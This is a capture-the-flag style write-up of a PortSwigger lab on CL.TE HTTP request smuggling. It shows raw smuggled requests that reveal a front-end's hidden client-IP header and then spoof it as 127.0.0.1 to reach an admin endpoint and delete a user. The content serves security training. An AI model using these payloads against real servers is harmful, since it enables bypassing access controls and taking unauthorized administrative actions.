

# Exploiting HTTP request smuggling to reveal front-end request rewriting
# Objective
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at `/admin`, but it's only accessible to people with the IP address `127.0.0.1`. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`.

# Solution
## Analysis
### Confirming that /admin path exists
||
|:--:| 
| *Path /admin exists and is restricted* |

### Search funcionality vis POST request

||
|:--:| 
| *Post request to search posts* |

###  Determining what the front-end and back-end is using
`Time out` confirms `CL.TE` vulnerability.

```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

||
|:--:| 
| *Front-end is using CL* |
| *Back-end is using TE* |

### Revealing front-end request rewriting
[Technique for revealing front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting#revealing-front-end-request-rewriting)

Above technique allowed to retrieve header that was added by front-end: `X-HzWfIu-Ip: <clien ip address>`

```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

search=
```


||
|:--:| 
| *Request was smuggled - revealing front-end request rewriting* |
||
| *Request was smuggled - revealing front-end request rewriting* |


## Exploitation
```
POST / HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 217
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
Host: 0a05009d0349b96884394a9c00de00f9.web-security-academy.net
X-HzWfIu-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

search=
```

||
|:--:| 
| *Request was smuggled but it was blocked* |
||
| *Request was smuggled successfuly* |
||
| *Deletion of user Carlos* |


